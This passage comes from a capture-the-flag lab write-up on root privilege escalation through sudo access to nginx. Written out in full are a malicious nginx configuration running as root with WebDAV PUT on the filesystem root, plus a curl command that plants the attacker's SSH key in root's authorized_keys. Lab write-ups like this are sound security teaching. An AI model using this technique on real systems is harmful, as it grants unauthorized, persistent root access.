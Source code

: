<figure><img src="../../.gitbook/assets/broker_fileread.png" alt=""><figcaption><p>Figure 7: Loading a new nginx configuration and snatching the root flag. </p></figcaption></figure>

### File Write

We can use the [ngx\_http\_dav\_module](https://nginx.org/en/docs/http/ngx\_http\_dav\_module.html) extension that allows us to upload files to the box as `root` . We can leverage this by writing our public SSH key (located within the `~/.ssh/` directory) to the root's authorized SSH keys, and then SSH into the box as `root` from our attackhost (Figure 8).

{% tabs %}
{% tab title="Create and load configuration file" %}
{% code overflow="wrap" %}
```bash
# create the malicious configuration file
nano filewrite.conf
# load configuration to the server
sudo /usr/sbin/nginx -c ~/filewrite.conf
# check that the port is listening
netstat -ntl | grep 9002
# write our public SSH key to the root's authorized SSH keys
curl -X PUT localhost:9002/root/.ssh/authorized_keys -d 'ssh-ed2<REDACTED>92m kali@CSpanias'
```
{% endcode %}
{% endtab %}

{% tab title="Configuration" %}
{% code title="filewrite.conf" %}
```bash
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9002;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}
